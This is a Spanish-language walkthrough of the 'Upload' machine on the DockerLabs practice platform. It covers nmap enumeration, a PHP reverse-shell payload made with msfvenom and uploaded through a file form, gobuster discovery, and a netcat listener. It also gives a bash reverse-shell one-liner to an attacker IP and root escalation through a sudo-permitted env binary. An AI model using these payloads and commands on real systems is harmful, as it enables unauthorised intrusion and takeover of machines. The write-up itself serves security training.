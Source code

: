 ```yaml
---
layout: single
title: Upload - DockerLabs
excerpt: "Maquina Linux vulnerada mediante una reverse shell subieno un archivo al servidor"
date: 2024-05-18
classes: wide
header:
  teaser: /assets/images/logos/logo_dockerlabs.png
  teaser_home_page: true
categories:
  - DockerLabs
tags:
  - linux
  - Muy facil
  - Reverse Shell
  - Sudo
---
```


<p align="center">
  <img width="250" height="250" src="https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png">
</p>

Esta maquina está clasificada como "Muy Facil" en la plataforma de [DockerLabs](https://dockerlabs.es/#/), muy útil para practicar reverse shell y escalar privilegios mediante el uso de binarios

# 1- Enumeración

Comenzamos con la etapa de enumeración para ello vamos a usar la herramienta nmap con los siguientes parámetros

```bash
sudo nmap -p- --open -sS -sC -sV -n -Pn 172.17.0.2 -oN nmap.txt
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -p-       | Escanear todos los puertos         |
| --open    | Mostrar los puertos abiertos       |
| -sS       | Sondeo de tipo SYN sigiloso        |
| -sV       | Habilita la detección de versiones |
| -n        | Sin resolución de DNS              |
| -Pn       | Omitir el descubrimiento de hosts  |
| -oN       | Formato de salida del archivo      |

Finalizado el escaneo podemos ver que solo está abierto el puerto 80, con esto sabemos que corre el servicio Apache en dicho puerto

```css
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-12 13:37 -03
Nmap scan report for 172.17.0.2
Host is up (0.000011s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.49 seconds
```

Procedemos a investigar en el navegador colocando la siguiente url `http://172.17.0.2`

![](https://pentest4noob.github.io/Writetups/assets/images/writetup/upload/001Upload.png)

Se puede observar que es una pagina para subir archivos, por lo tanto se intuye que el vector de ataque podría ser mediante una reverse shell en php, procedo a crear el archivo malicioso con la herramienta msfvenom

```bash
msfvenom -p php/reverse_php LHOST=192.168.0.200 LPORT=8081 -f raw > pwned.php
```

| Parametro | Descripción                                |
| --------- | ------------------------------------------ |
| -p        | tipo de payload                            |
| LHOST     | IP de la maquina atacante                  |
| LPORT     | Puerto a la escucha de la maquina atacante |
| -f        | formato de salida                          |

Procedo a subir el payload, me indica que el archivo se subió correctamente.

![](https://pentest4noob.github.io/Writetups/assets/images/writetup/upload/002Upload.png)

Ahora debo buscar donde se guardó el archivo pwned.php, por lo tanto procedo a realizar un fuzzing web con la herramienta gobuster

```bash
gobuster -n 404 -t 64 dir -u http://172.17.0.2/ -w /usr/share/dirbuster/wordlist/directoyry-list-lowercase-2.3-medium.txt -x txt,py,sh,php,html
```

| Parametro | Descripcion                     |
| --------- | ------------------------------- |
| -n        | No imprimir códigos de estado   |
| -t        | cantidad de hilos en paralelo   |
| -u        | URL                             |
| -w        | Ruta al diccionario             |
| -x        | Extensiones de archivo a buscar |

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,py,sh
[+] No status:               true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                [Size: 275]
/.php                 [Size: 275]
/uploads              [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           [Size: 1357]
/index.html           [Size: 1361]
/.html                [Size: 275]
/.php                 [Size: 275]
/server-status        [Size: 275]
Progress: 1245858 / 1245864 (100.00%)
===============================================================
Finished
===============================================================
```

Viendo el resultado queda al descubierto el directorio uploads procedo a ingresar la siguiente url `http://172.17.0.2/uploads`

![](https://pentest4noob.github.io/Writetups/assets/images/writetup/upload/003Upload.png)

Al ingresar se observa el archivo que había subido con anterioridad pwned.php

# 2- Intrusión

procedo a ponerme a la escucha en mi maquina atacante con netcat por el puerto `8081` con dicho puerto configuré el payload anteriormente

```bash
nc -nlvp 8081
```

Ahora doy click en el archivo pwned.php, el navegador se va a quedar como si estuviera cargando es buena señal

![](https://pentest4noob.github.io/Writetups/assets/images/writetup/upload/004Upload.png)

me fijo en la consola de mi maquina atacante y puedo ver que realizó la conexión con éxito ejecuto el comando `whoami` y me devuelve el usuario `www-data` intrusión realizada!

![](https://pentest4noob.github.io/Writetups/assets/images/writetup/upload/005Upload.png)

## Nota:

El payload en msfvenom suele ser inestable y luego de un tiempo se cae la conexión por lo tanto es recomendable abrir otra terminal y ponerse a la escucha con un puerto diferente en la maquina donde ya tenemos la intrusión

```bash
nc -nlvp 4443
```

ahora se procede a enviar la reverse shell para eso se debe ir la pagina web [revshell.com](https://www.revshells.com/) y copiar el siguiente comando

```bash
bash -c "sh -i >& /dev/tcp/192.168.0.200/4443 0>&1"
```

con esto se va adquirir una nueva shell mas estable

## Tratamiento de la TTY

Antes de realizar la escalada de privilegios voy hacer el tratamiento de tty para poder estabilizar la shell

```bash
script /dev/null -c bash
```

presionamos ctrl + z

```bash
stty raw -echo; fg
```

luego escribimos

```bash
reset xterm
```

nota: es posible que no muestre en pantalla lo que estamos tecleando

```bash
export TERM=xterm
```

```bash
export SHELL=bash
```

# 3- Escalada de privilegios

Ya con la bash mas estable es momento de escalar privilegios a root para ellos voy a ejecutar el siguiente comando `sudo -l` para listar los permisos de sudo que tiene el usuario actual en el sistema.

![](https://pentest4noob.github.io/Writetups/assets/images/writetup/upload/006Upload.png)

En este caso se observa que se puede ejecutar el binario `/usr/bin/env` como el usuario **root**, sin proporcionar contraseña. Por lo tanto se procede a investigar en la pagina [GTFOBins](https://gtfobins.github.io/) como explotar este binario

![](https://pentest4noob.github.io/Writetups/assets/images/writetup/upload/007Upload.png)

ejecutamos el comando

```bash
sudo env /bin/sh
```

Listo! se logró escalar privilegios a al usuario root

![](https://pentest4noob.github.io/Writetups/assets/images/writetup/upload/008Upload.png)
